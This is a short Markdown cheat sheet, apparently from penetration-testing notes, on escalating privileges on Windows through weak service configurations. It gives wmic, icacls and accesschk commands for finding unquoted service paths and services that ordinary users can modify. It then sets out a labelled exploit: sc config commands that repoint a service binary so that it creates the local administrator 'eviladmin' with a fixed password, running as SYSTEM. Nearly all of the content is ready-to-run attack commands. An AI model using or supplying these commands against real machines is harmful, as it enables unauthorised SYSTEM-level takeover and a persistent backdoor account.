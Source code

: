 ### Unquoted path

* List all unquoted service paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

* Check folder permissions on results. Look for M (modify) or W (write) for current user
```
icacls "C:\Program Files (x86)\Privacyware"
```

### Insecure Service Permissions

To check which Services have vulnerable privileges we can use [AccessChk](https://technet.microsoft.com/en-us/sysinternals/accesschk.aspx) tool from [SysInternals Suite](https://technet.microsoft.com/en-us/sysinternals/bb842062.aspx).

Accesscheck will determine which service bin paths can be modified.

* Execute `accesschk` avalaible [here](https://technet.microsoft.com/en-us/sysinternals/accesschk.aspx)
* List potentially vulnerable services: `accesschk.exe -uwcqv *`
* You can also supply a group name or a username: 
```
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "testuser" * # All services that "testuser" can modify will be listed
```

This will show list each service and the groups which have write permissions to that service – if you have an account in any of these groups then you’ve potentially got privilege escalation.

Then we can use sc qc to determine the properties, you want to look for the following listed below.

Look for: **SERVICE_CHANGE_CONFIG**, **SERVICE_ALL_ACCESS**, **GENERIC_WRITE**, **GENERIC_ALL**, **WRITE_DAC**, **WRITE_OWNER **

**SERVICE_ALL_ACCESS** means we have full control over modifying the properties of Vulnerable Service.

* Let’s view the properties of the Vulnerable Service:
```
sc qc "Vulnerable Service Name"
```

`BINARY_PATH_NAME` points to executable file for this service. If we change this value with any command means this command will run as SYSTEM at the next start of the service.

* Exploit: add a new local administrator:
```
sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
sc stop "Vulnerable Service"
sc start "Vulnerable Service"
sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
sc start "Vulnerable Service"
```
